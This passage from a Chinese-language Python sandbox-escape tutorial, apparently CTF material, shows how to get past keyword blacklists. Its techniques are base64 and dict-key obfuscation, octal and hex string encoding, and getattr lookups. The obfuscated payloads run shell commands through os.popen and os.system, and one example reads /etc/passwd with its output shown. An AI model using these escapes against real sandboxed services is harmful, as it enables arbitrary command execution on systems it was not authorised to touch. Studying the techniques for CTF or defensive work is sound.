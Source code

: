 exp:
```py
s = "eval(list(dict(v_a_r_s=True))[len([])][::len(list(dict(aa=()))[len([])])])(__import__(list(dict(b_i_n_a_s_c_i_i=1))[False][::len(list(dict(aa=()))[len([])])]))[list(dict(a_2_b___b_a_s_e_6_4=1))[False][::len(list(dict(aa=()))[len([])])]](list(dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbignZWNobyBIYWNrZWQ6IGBpZGAnKS5yZWFkKCkg=True))[False])"
octal_string = "".join([f"\\{oct(ord(c))[2:]}" for c in s])
print(octal_string)
```

十六进制：
```py
exec("\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x6c\x73\x27\x29")
```

exp:
```py
s = "eval(eval(list(dict(v_a_r_s=True))[len([])][::len(list(dict(aa=()))[len([])])])(__import__(list(dict(b_i_n_a_s_c_i_i=1))[False][::len(list(dict(aa=()))[len([])])]))[list(dict(a_2_b___b_a_s_e_6_4=1))[False][::len(list(dict(aa=()))[len([])])]](list(dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbignZWNobyBIYWNrZWQ6IGBpZGAnKS5yZWFkKCkg=True))[False]))"
octal_string = "".join([f"\\x{hex(ord(c))[2:]}" for c in s])
print(octal_string)
```

#### 其他编码
hex、rot13、base32 等。


### 过滤了属性名或者函数名
在 payload 的构造中，我们大量的使用了各种类中的属性，例如 `__class__`、`__import__` 等。
#### getattr 函数
getattr 是 Python 的内置函数，用于获取一个对象的属性或者方法。其语法如下：

```python
getattr(object, name[, default])
```
这里，object 是对象，name 是字符串，代表要获取的属性的名称。如果提供了 default 参数，当属性不存在时会返回这个值，否则会抛出 AttributeError。

```py
>>> getattr({},'__class__')
<class 'dict'>
>>> getattr(os,'system')
<built-in function system>
>>> getattr(os,'system')('cat /etc/passwd')
root:x:0:0:root:/root:/usr/bin/zsh
>>> getattr(os,'system111',os.system)('cat /etc/passwd')
root:x:0:0:root:/root:/usr/bin/zsh
```
这样一来，就可以将 payload 中的属性名转化为字符串，字符串的变换方式多种多样，更易于绕过黑名单。

#### `__getattribute__` 函数
`__getattribute__` 于，它定义了当我们尝试获取一个对象的属性时应该进行的操作。
